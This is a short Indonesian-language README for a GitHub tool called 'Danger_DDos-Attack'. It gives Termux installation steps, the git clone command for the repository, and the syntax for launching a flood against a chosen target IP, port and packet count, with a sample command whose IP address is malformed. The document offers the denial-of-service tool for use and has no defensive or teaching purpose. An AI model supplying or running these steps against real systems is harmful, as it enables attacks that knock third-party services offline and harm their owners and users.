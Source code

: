 # Danger_DDos-Attack

cara menggunakan nya di termux:

1. apt update && apt upgrade
2. apt install python
3. apt install python2
4. apt install git
5. git clone https://github.com/Garuda12cyber/Danger_DDos-Attack.git
6. cd Danger_DDos-Attack
7. ls 
8. python2 Danger_DDos-Attack.py
9. python2 Danger_DDos-Attack.py [IP Target kalian] [port target] [DDos yang ingin di kirim]

ketikan ini tanpa tanpa tanda kurung

contoh : python2 Danger_DDos-Attack.py 2134.24.53.4.52 3897 33536

ini hanya bisa di jalankan di termux
